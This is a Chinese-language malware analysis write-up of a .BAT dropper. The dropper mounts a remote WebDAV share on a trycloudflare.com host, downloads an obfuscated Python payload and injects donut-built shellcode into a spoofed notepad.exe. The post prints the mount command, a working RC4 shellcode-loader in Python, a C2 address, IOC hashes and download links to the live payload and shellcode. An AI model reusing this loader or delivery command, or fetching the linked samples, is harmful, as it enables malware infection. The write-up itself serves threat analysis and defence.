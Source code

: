 ```yaml
---
title: Windows .BAT Malware Analysis
date: 2025-05-20
categories: [reverse, malware analysis]
tags: [analysis, reverse, malware]
---
```


[本样本来自卡饭论坛(Kafan)](https://bbs.kafan.cn/thread-2281511-1-1.html)

## 样本行为概述
1. **双击执行 .BAT 文件后，调用 `net` 组件加载远程共享磁盘：**
   ```bat
   net use Z: "\\digital-childrens-junior-cure.trycloudflare.com@SSL\DavWWWRoot" /user:your-username your-password /persistent:no
   ```
   - 通过 WebDAV 方式挂载远程共享盘。

2. **下载 Python 环境和恶意载荷，释放至用户文件夹下的“联系人”目录。**

3. **下载完成后，删除挂载：**
   ```bat
   net use Z: /delete /yes
   ```

4. **恶意载荷说明：**
   - 载荷为 Python 编写，位于 `jaka.zip` 中的 `yea.py` 文件。
   - 该文件经过混淆处理。

5. **运行python载荷，并APC注入shellcode**

---

## yea.py 主要功能分析

### 1. RC4 解密 Shellcode Loader

伪代码如下：

```python
import ctypes, base64

def rc4_decrypt(key: bytes, data: bytes) -> bytes:
    # Key-Scheduling Algorithm (KSA)
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    # Pseudo-Random Generation Algorithm (PRGA)
    i = j = 0
    out = bytearray()
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        K = S[(S[i] + S[j]) % 256]
        out.append(byte ^ K)
    return bytes(out)

def load_and_execute():
    encrypted = base64.b64decode('encoded shellcode')
    key       = b"xWp0LaAO"
    shellcode = rc4_decrypt(key, encrypted)

    # Allocate and make memory executable
    buf = ctypes.create_string_buffer(shellcode)
    ctypes.windll.kernel32.VirtualProtect(
        ctypes.byref(buf),
        ctypes.sizeof(buf),
        0x40,                # PAGE_EXECUTE_READWRITE
        ctypes.byref(ctypes.c_ulong())
    )

    # Cast to function pointer and call
    fn = ctypes.cast(buf, ctypes.CFUNCTYPE(ctypes.c_void_p))
    fn()

if __name__ == "__main__":
    load_and_execute()
```

- **功能说明：**
  - 使用 RC4 算法和固定密钥 `xWp0LaAO` 解密 base64 编码的 shellcode。
  - 通过 `ctypes` 申请可执行内存并运行 shellcode。

---

### 2. Shellcode 溯源与分析

- 提取 shellcode 后上传 VirusTotal，发现其由 donut 工具将 DLL/EXE 文件转换为 shellcode。
- VirusTotal 文件哈希：`7f48d92abd37c4c2d1ced2a850de9ff6a9b8f31113e1853a26c0d7968ae14573`

- 使用 GitHub 工具解密 shellcode 得到原始二进制，进一步分析发现疑似为 **lazy 泄密木马** 家族。

---

## 动态行为分析

- 样本会创建一个父进程欺骗的 `notepad.exe`，分配内存后执行 APC 注入。
- C2 地址：`95.217.129.88:5921`

---

## 总结 & MITRE ATT&CK 矩阵

- 本次分析的 .BAT 样本通过远程挂载下载并释放 Python 恶意载荷，最终通过 RC4 解密和内存执行方式加载 shellcode
![MITRE ATT&CK](images/2025-5-20_mitre_layer.svg)

---

## IOC 情报

- 95.217.129.88:5921
- 7f48d92abd37c4c2d1ced2a850de9ff6a9b8f31113e1853a26c0d7968ae14573
- 0d1323d50ff0496c7ee687d65050b02de85e80b81938d7e1df204ed7320ef7c2

---

## 下载

- 核心载荷下载：[https://www.123912.com/s/HmItjv-Tm22?提取码:VeTM](https://www.123912.com/s/HmItjv-Tm22?提取码:VeTM)
- Shellcode 二进制文件下载：[https://www.123912.com/s/HmItjv-vm22?提取码:dYAH](https://www.123912.com/s/HmItjv-vm22?提取码:dYAH)

